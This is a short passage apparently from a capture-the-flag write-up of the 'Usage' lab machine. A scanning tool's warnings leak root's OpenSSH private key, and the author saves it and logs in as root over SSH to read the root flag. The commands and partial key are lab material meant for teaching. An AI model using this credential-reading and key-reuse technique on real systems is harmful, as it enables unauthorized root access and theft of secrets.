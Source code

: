 ```

Scan WARNINGS for files and folders:
-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
...[snip]...
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7

Break signaled

```

I can save that to a file, remove the “ : No more files” messages from each line, and log in:

```

oxdf@hacky$ vim ~/keys/usage-root
oxdf@hacky$ chmod 600 ~/keys/usage-root
oxdf@hacky$ ssh -i ~/keys/usage-root root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...[snip]...
root@usage:~# 

```

And read `root.txt`:

```

root@usage:~# cat root.txt
3b2f895e************************

```